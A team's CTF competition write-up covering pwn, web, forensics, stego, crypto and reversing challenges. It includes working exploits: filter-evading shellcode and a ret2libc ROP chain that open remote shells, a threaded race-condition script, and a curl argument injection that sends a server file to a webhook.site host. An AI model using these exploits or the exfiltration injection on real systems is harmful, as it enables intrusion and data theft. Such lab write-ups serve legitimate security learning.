

# UMCS Preliminary

meowware

zeqzoq – Ajiqqos – Kr3yzi – Chong

9/10 challenge solved

.png>)

## PWN

### babysc

.png>)


Solve by zeqzoq, writeup by zeqzoq


The source code. This challenge become easy because they gave the source code. So player can just GPT this. But not for me&#x20;

```c
#include <stdlib.h>
#include <stdint.h>
#include <stdbool.h>
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <time.h>
#include <errno.h>
#include <assert.h>
#include <libgen.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/socket.h>
#include <sys/wait.h>
#include <sys/signal.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <sys/sendfile.h>
#include <sys/prctl.h>
#include <sys/personality.h>
#include <arpa/inet.h>

void *shellcode;
size_t shellcode_size;

void vuln(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);

	puts("Enter 0x1000");
	shellcode_size = read(0, shellcode, 0x1000);
    for (int i = 0; i < shellcode_size; i++)
    {
        uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
        if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f)
        {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
    }
   puts("Executing shellcode!\n");
	((void(*)())shellcode)();
}

int main(){
	vuln();
	return 0;
}
```

Looking at the source code there not much to be exploited as the main only call vuln() and theres no other hidden function so there no need for rewriting the return address as always. And after main() called vuln() it just sanitize 0x80cd, 0x340f and 0x050f which are syscall, sysenter, and int instructions respectively and then execute our input. So we can either dynamically modify bytes to include syscall instructions at runtime, use push,pop implementation (/bin/bash -p), use execve (/bin/bash -p) or even use push,pop implementation (/bin///sh -p).

So rather than doing the shellcode manually or trial and error using chatgpt, I just search google for a shellcode that doesn’t use syscall, sysenter and int.

[https://www.cliffsnotes.com/study-notes/12995378](https://www.cliffsnotes.com/study-notes/12995378)

I used the exploit script and edit it. The shellcode is the important one. Luckily enough the writeup also pad the shellcode until it fill the 0x1000 bytes (4096 bytes) so theres no need to change to automation or anything else.

```python
from pwn import *

elf = ELF('babysc', checksec=False)
context.binary = elf
context.log_level = "INFO"

shellcode = f"""
push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi
    push rsi
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi
    mov rsi, rsp
    xor edx, edx
    push 0x3b
    pop rax
    push 0x050e
    inc qword ptr [rsp]
    jmp rsp
    nop
"""

p = remote("34.133.69.112", 10001)
payload = asm("nop") * 850 + asm(shellcode, arch='amd64')
p.sendlineafter("Enter 0x1000", payload)
p.interactive()

```

Then search for the flag

```bash
┌──(zeqzoq㉿zeqzoq)-[/mnt/c/Users/hzqzz/Downloads/UMCS/pwn-babysc]
└─$ python exploit.py
[+] Opening connection to 34.133.69.112 on port 10001: Done
[*] Switching to interactive mode
Executing shellcode!

$ whoami
pwnuser
$ ls -la
total 40
drwxr-x--- 1 pwnuser pwnuser  4096 Apr 10 20:37 .
drwxr-xr-x 1 root    root     4096 Apr 10 17:16 ..
-rw-r--r-- 1 pwnuser pwnuser   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 pwnuser pwnuser  3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 pwnuser pwnuser   807 Jan  6  2022 .profile
-rwxrwxr-x 1 root    root    16360 Apr 10 20:37 babysc
$ cd /
$ ls -la
total 72
drwxr-xr-x   1 root root 4096 Apr 10 20:40 .
drwxr-xr-x   1 root root 4096 Apr 10 20:40 ..
-rwxr-xr-x   1 root root    0 Apr 10 20:40 .dockerenv
lrwxrwxrwx   1 root root    7 Apr  4 02:03 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  340 Apr 10 20:40 dev
drwxr-xr-x   1 root root 4096 Apr 10 20:40 etc
-rw-rw-r--   1 root root   51 Apr 10 20:37 flag
drwxr-xr-x   1 root root 4096 Apr 10 17:16 home
lrwxrwxrwx   1 root root    7 Apr  4 02:03 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr  4 02:03 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr  4 02:03 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr  4 02:03 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr  4 02:03 media
drwxr-xr-x   2 root root 4096 Apr  4 02:03 mnt
drwxr-xr-x   2 root root 4096 Apr  4 02:03 opt
dr-xr-xr-x 185 root root    0 Apr 10 20:40 proc
drwx------   2 root root 4096 Apr  4 02:10 root
drwxr-xr-x   5 root root 4096 Apr  4 02:10 run
lrwxrwxrwx   1 root root    8 Apr  4 02:03 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr  4 02:03 srv
dr-xr-xr-x  13 root root    0 Apr 10 20:40 sys
drwxrwxrwt   1 root root 4096 Apr 10 17:16 tmp
drwxr-xr-x   1 root root 4096 Apr  4 02:03 usr
drwxr-xr-x   1 root root 4096 Apr  4 02:10 var

$ cat /flag
umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}
```

### Liveleak <a href="#toc195398750" id="toc195398750"></a>

.png>)


Solved by Ajiqqos, writeup by Ajiqqos


Received a lot file for this challenge but, we decompile the challenge file first. We found that this challenge has a common vulnerability function, basically a common buffer overflow function.

.png>)

The buffer is 64 but fgets 128 buffer. It also has a interesting\_function() written but its empty.

.png>)

So maybe we can try find out on what does this challenge let us jump to a specific function or trick.

We asked ChatGPT for this and it shows a lead to solve this challenge.


So first we run a checksec chall to find out what defenses are the challenge using first.


Again, GPT gives us more hint.


Maybe we can try this immediately since we have both these files together for the challenge.

We have to leak the libc addresses first before we can perform the ret2libc. I try to find out the addresses for puts@plt and puts@got using objdump.


As we get the addresses, we can set up a ROP chain but we need to find the pop rdi; ret using ROPgadget.



Now its time to fully leak the libc, access the shell and get the flag. Full exploit code we send to the challenge is below.

```python
from pwn import *

context.binary = './chall'
elf = context.binary
libc = ELF('./libc.so.6') # Provided libc

# p = process('./chall')          # for local
p = remote('34.133.69.112', 10007)  # comment/uncomment if remote later
# p = remote('host', port)         # if remote CTF server

# Important addresses
puts_plt = elf.symbols['puts']          # 0x401090
puts_got = elf.got['puts']              # 0x404018
vuln = elf.symbols['vuln']              # 0x40125C
pop_rdi_ret = 0x4012bd                  # pop rdi ; ret
ret = 0x40101a                          # ret gadget for stack alignment

log.info(f"puts@plt: {hex(puts_plt)}")
log.info(f"puts@got: {hex(puts_got)}")
log.info(f"vuln function: {hex(vuln)}")
log.info(f"pop rdi ; ret gadget: {hex(pop_rdi_ret)}")
log.info(f"ret gadget: {hex(ret)}")

# --- Stage 1: Leak puts address ---
payload = b"A" * 72
payload += p64(ret)            # Align the stack (ret) (important for SHSTK/IBT)
payload += p64(pop_rdi_ret)     # pop rdi; ret
payload += p64(puts_got)        # argument: puts@got
payload += p64(puts_plt)        # call puts@plt
payload += p64(vuln)            # return to vuln() for second stage

p.sendlineafter(b"Enter your input: ", payload)

# Receive the leak
p.recvline()            # Eat the "Enter your input:" line
leaked_puts = p.recvline().strip().ljust(8, b"\x00")
leaked_puts_addr = u64(leaked_puts)

log.success(f"Leaked puts@GLIBC address: {hex(leaked_puts_addr)}")

# --- Calculate libc base ---
libc_base = leaked_puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))

log.success(f"Calculated libc base: {hex(libc_base)}")
log.success(f"system() address: {hex(system_addr)}")
log.success(f"'/bin/sh' string address: {hex(binsh_addr)}")

# --- Stage 2: Get shell (fixed) ---
payload2 = b"A" * 72
payload2 += p64(ret)              # align
payload2 += p64(pop_rdi_ret)       # pop /bin/sh address
payload2 += p64(binsh_addr)
payload2 += p64(ret)              # align again
payload2 += p64(system_addr)

p.sendlineafter(b"Enter your input: ", payload2)

# Enjoy shell
p.interactive()
```

As we run the exploit script and run whoami, we get a different user in the shell. Means we already success to get into the shell !!! Now its just the time to find the flag.


Ran a few checks using ls, and finally found the flag.


## FORENSICS

### Hidden in Plain Graphics



Solved by zeqzoq, writeup by zeqzoq


Not sure why does this challenge in Forensic category.

After doing the basic thing in a pcap file, then scrolling through the pcap file found similar duplicate packets. Then found the black packet which was the only thing different. Decided to follow its TCP


Save as the file and name it to png file. Theres nothing interesting in the metadata. The file itself has a typo. It was zight instead of sight. So I tried zsteg.

```bash
┌──(zeqzoq㉿zeqzoq)-[/mnt/c/Users/hzqzz/Downloads/UMCS/hidden in plain graphic]
└─$ zsteg example.png
b1,r,lsb,xy         .. text: "b^~SyY[ww"
b1,rgb,lsb,xy       .. text: "24:umcs{h1dd3n_1n_png_st3g}"
b1,abgr,lsb,xy      .. text: "A3tgA#tga"
b1,abgr,msb,xy      .. file: Linux/i386 core file
b2,r,lsb,xy         .. file: Linux/i386 core file
b2,r,msb,xy         .. file: Linux/i386 core file
b2,g,lsb,xy         .. file: Linux/i386 core file
b2,g,msb,xy         .. file: Linux/i386 core file
b2,b,lsb,xy         .. file: Linux/i386 core file
b2,b,msb,xy         .. file: Linux/i386 core file
b2,abgr,lsb,xy      .. file: 0420 Alliant virtual executable not stripped
b3,abgr,lsb,xy      .. file: StarOffice Gallery theme \020, 8388680 objects, 1st A
b4,b,lsb,xy         .. file: 0420 Alliant virtual executable not stripped
b4,rgba,msb,xy      .. file: Applesoft BASIC program data, first line number 8
b4,abgr,msb,xy      .. file: Atari DEGAS Elite compressed bitmap 320 x 200 x 16, color palette 0080 0080 8008 0008 0000

```

## WEB

### healthcheck



Solved by AI (zeqzoq), writeup by zeqzoq


100% AI solved this (need to prompt carefully ofcourse)


http://webhook.site/0b45cb78-5dcf-4877-8044-7e8a3ff05fb9 -F file=@hopes\_and\_dreams


```bash
┌──(zeqzoq㉿zeqzoq)-[/mnt/c/Users/hzqzz/Downloads/UMCS]
└─$ cat hopes_and_dreams
umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}

```

But here’s the explanation

The challenge description told us to fetch hopes\_and\_dreams on the server. So we are getting a file not the flag string.

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST["url"])) {
    $url = $_POST["url"];

    $blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];
    $sanitized_url = str_replace($blacklist, '', $url);
    $command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";

    $output = shell_exec($command);
    if ($output) {
        $response_message .= "<p><strong>Response Code:</strong> " . htmlspecialchars($output) . "</p>";
    }
}
?>

```

The PHP code checks if a POST request is made with a ‘url’ parameter (The web challenge itself told us to input url). Then it sanitizes the blacklist character. After sanitization, it constructs a command using curl to fetch the URL and then pipes the output to grep to extract the HTTP status code. The vulnerability is here in the way the URL is sanitized and then used in a shell command.

In PHP, you can use the file:// protocol to read local files. So theoretically, we can get the curl command to access **`file:///path/to/hopes_and_dreams`**. Then the command would be **`curl -s -D - -o /dev/null file:///hopes_and_dreams | grep`**. When curl accesses a local file, it doesn't return HTTP headers, which are required for the grep command to extract the status code. That’s why the command is using -D - to output the headers to stdout, and -o /dev/null to discard the body. So, when accessing a local file, curl would output the headers (if any) and then the body is discarded. But for a local file, there are no HTTP headers, so maybe curl doesn't output anything, and the grep command would not find anything. Because the PHP code is expecting an HTTP response code, but when accessing a local file, there's no HTTP status code.

Command injection doesn’t work because of the blacklist moreover the PHP\_EOL. Accessing the file via **http://104.214.185.119/index.php/hopes\_and\_dreams** then the HTTP status code would be 200 would only return a status code, not the file contents.

So because of all of that, I decided instead of reading the file, I’m downloading the file. We can use the -F option in curl to send a form with the file contents and even send POST request. So we would see the status code (e.g., HTTP/1.1 200 OK), but the file contents would be sent to the webhook.

The script constructs the shell command as follows:

```bash
$command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";
```

Using

`http://webhook.site/0b45cb78-5dcf-4877-8044-7e8a3ff05fb9 -F file=@hopes_and_dreams`

Substituting the value of **$sanitized\_url**, the command becomes:

`curl -s -D - -o /dev/null http://webhook.site/... -F file=@hopes_and_dreams | grep -oP '^HTTP.+[0-9]{3}'`

This would send the file contents as a form field to the webhook. The -F option tells curl to send a multipart form with the file contents. The @ symbol in @hopes\_and\_dreams tells curl to read the file.

### Straightforward <a href="#toc195398755" id="toc195398755"></a>



Solved by Kr3yzi, writeup by Kr3yzi


Author: _vicevirus_

Test out our game center. You'll have free claiming bonus for first timers!

[http://159.69.219.192:7859/](http://159.69.219.192:7859/)

**How the app works:**


_**/register**_ - New user with 1000 balance

_**/claim**_ - +1000 bonus (1 per user)

_**/buy**_\_flag - Need 3000 balance for flag

**What Actually Happened (My Mistake Story)**

Okay so at first… I thought this challenge was something about token or session attack. I spent like 5-10 minutes trying to look at the session cookie, maybe it’s something like JWT, or weak secret key, or something I could decode. But turns out... Flask uses _os.urandom(16)_ for _app.secret\_key_ which is random and basically impossible to guess unless you control the server. My mistake la G, I should’ve just read the backend code properly from the start.

**What I Found After Reading the Backend**

After checking the source code — I saw something interesting in the /claim route.

```sql
cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
row = cur.fetchone()
if row and row['claimed']:
    flash("You have already claimed your daily bonus!", "danger")
    return redirect(url_for('dashboard'))

db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
db.commit()
```

At first glance, I was like looks okay…

But if you search online or check basic references about _**Race Condition**_ on database — especially for Flask + SQLite — you’ll find that this pattern can be risky if the database doesn’t have locking mechanism or transaction isolation.

But it’s kinda too technical to understand. Picture this: you’re Alice, and every morning you hit “Claim Bonus” to get your 1,000 points. The code behind the button basically does two things, first it checks “Hey, have I claimed today?” and then it says “Cool, let me mark you as claimed and add 1,000 to your balance,” and finally it saves (that’s the db.commit() part).

Now imagine Alice is super excited and by some weird timing, she clicks the button twice in rapid fire. Here’s what happens under the hood:

1. First click: The app checks and sees Alice hasn’t claimed yet.
2. Almost at the same time, second click: The app also checks and still thinks she hasn’t claimed yet (because the first click hasn’t finished saving).
3. First click finishes: marks “claimed” and gives +1,000.
4. Second click then finishes: marks “claimed” again (no change there) but also gives +1,000 because it never saw the “claimed” flag change.

Boom! Alice ends up with 2,000 points instead of 1,000, just by racing the system.

Reference example: [https://portswigger.net/web-security/race-conditions](https://portswigger.net/web-security/race-conditions)

Here’s another way to do this via burp: [https://medium.com/@mahakjaiswani888/race-condition-vulnerability-f92de47aa55c](https://medium.com/@mahakjaiswani888/race-condition-vulnerability-f92de47aa55c)

**Exploit Steps**

<figure><figcaption></figcaption></figure>

* Register new account - get 1000 balance.
* Don’t claim the daily bonus
* Spam /claim fast using Python multithreading. (Again, we need UNCOLLECTED DAILY BONUS jwt-token for this!)

<figure><figcaption></figcaption></figure>

Here’s the cracker.py

```python
import threading
import requests

# Replace these with your target URL and session cookie
BASE_URL = "http://159.69.219.192:7859"
SESSION_COOKIE = "UNCLAIMED DAILY USER TOKEN"

def claim_bonus():
    headers = {"Cookie": f"session={SESSION_COOKIE}"}
    response = requests.post(f"{BASE_URL}/claim", headers=headers)
    print(response.text)

# Create multiple threads to exploit the race condition
threads = []
for _ in range(10):  # Adjust the number of threads as needed
    thread = threading.Thread(target=claim_bonus)
    threads.append(thread)
    thread.start()

# Wait for all threads to complete
for thread in threads:
    thread.join()

print("Exploit completed. Check your balance on /dashboard.")

```

* Simply refresh our web and finally, redeem flag at /buy\_flag.
* And here’s the flag!!

UMCS{th3\_s0lut10n\_1s\_pr3tty\_str41ghtf0rw4rd\_too!}

## STEGANOGRAPHY

### **Broken** <a href="#toc195398757" id="toc195398757"></a>

<figure><figcaption></figcaption></figure>


Solved by Chongg, writeup by Chongg


The video file couldn’t be played, which made me think it might be corrupted or purposely broken.&#x20;

<figure><figcaption></figcaption></figure>

I first tried a few basic steganography techniques and commands on Linux.&#x20;

<figure><figcaption></figcaption></figure>

Then I got the idea to try fixing the video using an online video repair tool, and I used this site: [https://repair.easeus.com/#upload](https://repair.easeus.com/#upload)

After successfully repairing the video, I played it at 0.25x speed, hoping to catch any visual clues. Sure enough, one of the frames revealed the flag.

<figure><figcaption></figcaption></figure>

Flag : umcs{h1dd3n\_1n\_fr4m3}

### Hotline Miami

<figure><figcaption></figcaption></figure>


solved by zeqzoq, writeup by zeqzoq


We got a wav, jpg and readme.txt. Strings the jpg first

```bash
┌──(zeqzoq㉿zeqzoq)-[/mnt/c/Users/hzqzz/Downloads/UMCS/Hotline Miami]
└─$ strings rooster.jpg
JFIF
Exif
$$""**+33>
…
+;o}?
RICHARD
```

Found RICHARD which was extraordinary as a jpg file string. You can also use stegseek to get RICHARD. As this is a steganography challenge, I used steghide with passphrase as RICHARD

```bash
┌──(zeqzoq㉿zeqzoq)-[/mnt/c/Users/hzqzz/Downloads/UMCS/Hotline Miami]
└─$ steghide extract -sf rooster.jpg
Enter passphrase:
wrote extracted data to "payload1.txt".
```

Got payload1.txt

```bash
$ cat payload1.txt
NEXT LOCATION: 18-15-15-20-5-18-13-1-19-11
DECODE THE STATIC.
```

I tried to decode first before doing anything else

<figure><figcaption></figcaption></figure>

Got ROOTERMASK. I’m confident that is the decoded text because the jpg file name is rooster.

Then view the wav file as spectrogram as this is a steganography challenge. Then found WATCHING 1989

<figure><figcaption></figcaption></figure>

Looking back at the readme.txt file it seems like the format for the flag

```bash
┌──(zeqzoq㉿zeqzoq)-[/mnt/c/Users/hzqzz/Downloads/UMCS/Hotline Miami]
└─$ cat readme.txt
DO YOU LIKE HURTING OTHER PEOPLE?

Subject_Be_Verb_Year
```

But this challenge was a bit weird because there was no function in decoding Rootermask.

At first, I thought the flag is Rootermask\_be\_Watching\_1989 because rootermask was the one we successfully decode. But after trying some flag, this flag was the one accepted huh.

umcs{Richard\_be\_Watching\_1989}

## CRYPTOGRAPHY

### Gist of Samuel

<figure><figcaption></figcaption></figure>


solved by zeqzoq, writeup by zeqzoq


This challenge was fun but its more to misc rather than crypto

Googling Samuel as crypto challenge I found out it related to morse code

<figure><figcaption></figcaption></figure>

Then try to decode the emojis as morse code

<figure><figcaption></figcaption></figure>

Got

HERE IS YOUR PRIZE E012D0A1FFFAC42D6AAE00C54078AD3E SAMUEL REALLY LIKES TRAIN, AND HIS FAVORITE NUMBER IS 8

Stuck here then the hint came.

<figure><figcaption></figcaption></figure>

Following the link contain this url.

[https://gist.github.com/umcybersec/55bb6b18159083cf811de96d8fef1583](https://gist.github.com/umcybersec/55bb6b18159083cf811de96d8fef1583)



After some hour trying to decode the 32 number which I assumed MD5 because its cryptography challenge, I finally realise to use E012D0A1FFFAC42D6AAE00C54078AD3E as the gist url.

[https://gist.github.com/umcybersec/e012d0a1fffac42d6aae00c54078ad3e](https://gist.github.com/umcybersec/e012d0a1fffac42d6aae00c54078ad3e)



Then stuck here for a while too. So the only cipher related to train is Railfence cipher (based on experience). Tried to decode the blocks (it’s a cryptography challenge) but did not found anything. So tried shifting the blocks with key 8 Railfence cipher.

<figure><figcaption></figcaption></figure>

At first didn’t make any sense. Then I copy paste the shifted blocks and put in a notepad. Initially just want to share my progress to teammate but found diamond (flag) instead.

<figure><figcaption></figcaption></figure>

Flag: umcs{willow\_tree\_campsite}

## REVERSE ENGINEERING

### http-server <a href="#toc195398762" id="toc195398762"></a>

<figure><figcaption></figcaption></figure>


Solved by Ajiqqos, writeup by Ajiqqos


Receiving the challenge file, I immediately decompile the binary file using dogbolt.

<figure><figcaption></figcaption></figure>

As we analyzed the decompiled file, it looks so simple so I think we still solve just using strings.

```bash
$ strings server.unknown
/lib64/ld-linux-x86-64.so.2
…
[*]Socket Created!
[!]Failed! Cannot create Socket!
10.128.0.27
[*]IP Address and Socket Binded Successfully!
[!]Failed! IP Address and Socket did not Bind!
[*]Socket is currently Listening!
[!]Failed! Cannot listen to the Socket!
[*]Server Started....
[*]Waiting for client to connect.....
[*]Client Connected!
[!]Failed! Cannot accept client request
[*]Handling a Connection!
[!]Failed! No Bytes Received!
GET /goodshit/umcs_server HTTP/13.37
/flag
HTTP/1.1 404 Not Found
Content-Type: text/plain
Could not open the /flag file.
HTTP/1.1 200 OK
Content-Type: text/plain
HTTP/1.1 404 Not Found
Content-Type: text/plain
Not here buddy
…
.comment

```

We found out that it looks like a simple app to connect to a web by using GET function. It shows us the target we should try to reach.

Advise from GPT to directly print the function and run the nc, we directly get the flag.

```bash
┌──(ajiqqos㉿kali)-[~/Desktop]
└─$ printf “GET /goodshit/umcs_server HTTP/13.37” | nc 34.133.69.112 8080
HTTP/1.1 200 OK
Content-Type: text/plain

Umcs{http_server_a058712ff1da79c9bbf221907c65a5cd}
```
